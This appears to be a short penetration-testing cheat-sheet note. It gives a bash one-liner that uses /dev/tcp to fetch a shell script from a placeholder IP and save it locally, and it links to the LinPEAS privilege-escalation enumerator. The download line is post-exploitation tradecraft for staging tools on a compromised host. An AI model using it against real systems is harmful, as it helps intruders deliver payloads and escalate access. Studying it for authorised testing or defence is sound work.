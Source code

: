 bash script to transfer a file 

```sh
bash -c "exec 3<>/dev/tcp/IP/80; echo -e 'GET /youfile.sh HTTP/1.1\r\nHost: ip\r\nConnection: close\r\n\r\n' >&3; cat <&3 > yourfile.sh"
```

Linpeas one liner - https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md#one-liner-enumerator